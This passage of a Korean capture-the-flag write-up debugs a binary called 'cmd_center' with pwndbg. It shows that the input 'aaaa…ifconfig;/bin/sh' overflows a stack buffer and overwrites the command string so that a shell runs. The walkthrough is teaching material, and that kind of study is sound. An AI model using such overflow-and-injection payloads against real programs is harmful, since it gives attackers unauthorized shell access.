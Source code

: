 - 동적 분석
    `b *main+152`를 입력

    `r or run`을 입력
    - 정상 실행
        ```
        Center name: test
        ```
        - `test`라는 테스트 문자 입력

        ```
        RAX  0x7fffffffe0d0 ◂— 'ifconfig'
        RBX  0x7fffffffe2f8 —▸ 0x7fffffffe5ae ◂— '/home/kali/Desktop/tmp1/cmd_center'
        RCX  0x7ffff7ec4a1d (read+13) ◂— cmp rax, -0x1000 /* 'H=' */
        RDX  8
        RDI  0x7fffffffe0d0 ◂— 'ifconfig'
        RSI  0x555555400a12 ◂— imul esp, dword ptr [rsi + 0x63], 0x69666e6f /* 'ifconfig' */
        R8   0x5555554009f0 (__libc_csu_fini) ◂— repz ret 
        R9   0x7ffff7fcfb30 (_dl_fini) ◂— push rbp
        R10  0x7fffffffdf10 ◂— 0x800000
        R11  0x246
        R12  0
        R13  0x7fffffffe308 —▸ 0x7fffffffe5d1 ◂— 'COLORFGBG=15;0'
        R14  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe2c0 —▸ 0x555555400000 ◂— jg 0x555555400047
        R15  0
        RBP  0x7fffffffe1e0 ◂— 1
        RSP  0x7fffffffe0b0 ◂— 0x100000a74736574 /* 'test\n' */
        RIP  0x555555400945 (main+152) ◂— call 0x5555554006e0
        ```
        - `0x7fffffffe0d0` 주소에 "ifconfig" 문장이 있는 것을 확인
        - `0x7fffffffe0b0` 주소에 입력한 "test" 문장이 있는 것을 확인

    - 추론이 맞는지 확인
        ```
        Center name: test
        ```
        - `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaifconfig;/bin/sh`라는 테스트 문자 입력
        
        ```
        RAX  0x7fffffffe0d0 ◂— 'ifconfig;/bin/sh\n'                                                                         
        RBX  0x7fffffffe2f8 —▸ 0x7fffffffe5ae ◂— '/home/kali/Desktop/tmp1/cmd_center'                                       
        RCX  0x7ffff7ec4a1d (read+13) ◂— cmp rax, -0x1000 /* 'H=' */                                                        
        RDX  8                                                                                                              
        RDI  0x7fffffffe0d0 ◂— 'ifconfig;/bin/sh\n'                                                                         
        RSI  0x555555400a12 ◂— imul esp, dword ptr [rsi + 0x63], 0x69666e6f /* 'ifconfig' */                                
        R8   0x5555554009f0 (__libc_csu_fini) ◂— repz ret                                                                   
        R9   0x7ffff7fcfb30 (_dl_fini) ◂— push rbp
        R10  0x7fffffffdf10 ◂— 0x800000
        R11  0x246
        R12  0
        R13  0x7fffffffe308 —▸ 0x7fffffffe5d1 ◂— 'COLORFGBG=15;0'
        R14  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe2c0 —▸ 0x555555400000 ◂— jg 0x555555400047
        R15  0
        RBP  0x7fffffffe1e0 ◂— 1
        RSP  0x7fffffffe0b0 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaifconfig;/bin/sh\n'
        RIP  0x555555400945 (main+152) ◂— call 0x5555554006e0
        ```
        - `0x7fffffffe0d0` 주소에 "ifconfig;/bin/sh" 문장이 있는 것을 확인
        - `0x7fffffffe0b0` 주소에 입력한 "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaifconfig;/bin/sh" 문장이 있는 것을 확인

